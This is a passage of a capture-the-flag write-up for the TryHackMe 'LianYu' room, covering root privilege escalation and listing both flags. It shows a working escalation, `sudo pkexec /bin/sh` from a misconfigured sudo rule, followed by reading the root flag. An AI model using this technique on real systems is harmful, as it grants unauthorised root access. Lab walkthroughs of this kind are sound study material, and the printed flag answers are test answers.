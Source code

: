 - Moving to escalation now.

---

## 👑 Root Privilege Escalation

- This one is pretty easy, trust me. Use `sudo -l` and then look on GTFOBins for `pkexec` escalation, it's a oneliner.

  ```
  slade@LianYu:~$ sudo -l
  [sudo] password for slade: 
  Matching Defaults entries for slade on LianYu:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
  
  User slade may run the following commands on LianYu:
      (root) PASSWD: /usr/bin/pkexec
  
  slade@LianYu:~$ sudo pkexec /bin/sh
  # whoami
  root
  # id
  uid=0(root) gid=0(root) groups=0(root)
  # cat /root/root.txt
                            Mission accomplished
  
  
  
  You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 
  
  
  
  THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                                --DEATHSTROKE
  
  Let me know your comments about this machine :)
  I will be available @twitter @User6825
  ```
  
- With all being said, pretty fun room, enjoyed this one.

---

## 🏁 Flags

- **User Flag**: `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`
- **Root Flag**: `THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}`

---

## 💬 Notes & Reflections
